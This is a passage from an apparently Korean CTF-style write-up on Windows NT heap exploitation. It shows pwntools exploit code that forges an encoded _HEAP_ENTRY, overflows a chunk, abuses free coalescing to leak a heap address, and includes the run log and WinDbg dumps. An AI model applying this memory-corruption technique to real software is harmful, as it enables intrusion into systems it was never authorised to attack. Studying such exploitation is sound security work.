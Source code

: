 ```python
   +0x008 SubSegmentCode   : 0xc80101c8
   +0x00c PreviousSize     : 0x27
   +0x00e SegmentOffset    : 0 ''
   +0x00e LFHFlags         : 0 ''
   +0x00f UnusedBytes      : 0x10 ''
'''
log.info("fake XOR'ed _HEAP_ENTRY = 0x%016x" % fake_entry)

alloc(4, 0x1c80 -  # fake chunk size 
         0x20   -  # sizeof(_HEAP_ENTRY) * 2
		 0x200     # original size of overwritten chunk
) 

open_file()
read_file(2, 0x268)
edit(2, "A" * 0x268 + p64(fake_entry)[:6], False)

free(3)         # free coalesce mechanism also free'ing chunk 4
alloc(3, 0x200) # set Flink and Blink at chunk 4

heap_leak = u64(show(4)[:8].ljust(8, p8(0)))
log.info("leaked heap addr = 0x%016x" % heap_leak)
pause()

'''
[+] Opening connection to 192.168.0.18 on port 6677: Done
[*] _HEAP->Encoding = 0x0000d60f1a72815a
[*] fake XOR'ed _HEAP_ENTRY = 0x1000d628d2738092
[*] leaked heap addr = 0x000002478ae70150
[*] Paused (press any to continue)
....
0:001> dqs beefdad0000 l14
....
00000bee`fdad0078  0000ddaa`beef1acd
00000bee`fdad0080  00000000`00001a60
00000bee`fdad0088  00000000`00000004
00000bee`fdad0090  0000ddaa`beef1acd
00000bee`fdad0098  00000247`8ae803c0
0:001> dqs 247`8ae803c0 l2
00000247`8ae803c0  00000247`8ae70150
00000247`8ae803c8  00000247`8ae82e40
0:001> !heap
        Heap Address      NT/Segment Heap

         2478ae70000              NT Heap
         2478ac10000              NT Heap
         2478b0a0000              NT Heap
'''
```

leak된 heap 주소의 offset이 항상 0x150( **_HEAP->FreeLists** )으로 고정되어 있기 때문에 Heap chunk들을 관리하는 **_HEAP** 구조체의 주소를 안정적으로 구할 수 있습니다.
